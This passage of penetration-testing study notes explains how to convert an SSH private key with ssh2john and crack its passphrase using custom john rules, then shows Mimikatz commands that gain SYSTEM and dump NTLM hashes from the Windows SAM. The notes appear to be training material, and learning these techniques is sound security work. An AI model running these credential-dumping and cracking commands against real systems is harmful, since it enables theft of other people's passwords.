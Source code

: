 Finding a hash type in hashcat without resorting to searching the Wiki/internet:\
`hashcat --help | grep -i "KeePass"`

### SSH Private Key Passphrase

Transform the id\_rsa to a format for **john/hashcat**:\
`ssh2john id_rsa > ssh.hash`\
Similar to the keepass database password hash, remove the filename from the hash.

Finding a hash type in hashcat without resorting to searching the Wiki/internet:\
`hashcat --help | grep -i "ssh"`

Using a hashcat rule file for **john** requires adding a name for the rule and appending them to **/etc/john/john.conf**. In this case, we'll name the rule **sshRules**. Finally, we'll use this rule with **john** to crack the password:

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali:~$ cat ssh.rule
</strong>[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~$ sudo sh -c 'cat /home/kali/ssh.rule >> /etc/john/john.conf'
kali@kali:~$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
</code></pre>

## Working with Password Hashes

### Cracking NTLM

Windows stores hashed user passwords in the _Security Account Manager (SAM)_ database file. Modern systems store passwords as NTLM hashes. Older systems may be storing them in _LAN Manager (LM)_ form which is very weak. LM is disabled by default beginning with Vista and Server 2008.

NTLM hash === NTHash.

Because the kernel has a lock on the SAM database while the system is running, we use tools like _Mimikatz_ to bypass this restriction. It can extract plain-text passwords and hashes. It includes the _sekurlsa_ module, which extracts password hashes from the _Local Security Authority Subsystem (LSASS)_ process memory. LSASS handles user authentication, password changes, and _access token_ creation.

Mimikatz can only extract passwords if run as Administrator (or higher) with _SeDebugPrivilege_ access rights. Using the built-in _token elevation_ function of Mimikatz requires the _SeImpersonatePrivilege_ access rights -- all local administrators have this access right.

Using Mimikatz:

```powershell
PS C:\tools\> .\mimikatz.exe

// <Fancy ASCII art here>

// Enable SeDebugPrivilege
mimikatz # privilege::debug
Privilege '20' OK

// Elevate to SYSTEM privileges
mimikatz # token::elevate
...
-> Impersonated !
...

// Extract the NTLM hashes from the SAM.
mimikatz # lsadump::sam
...
User : nelly
  Hash NTLM: 3ae8e...
```
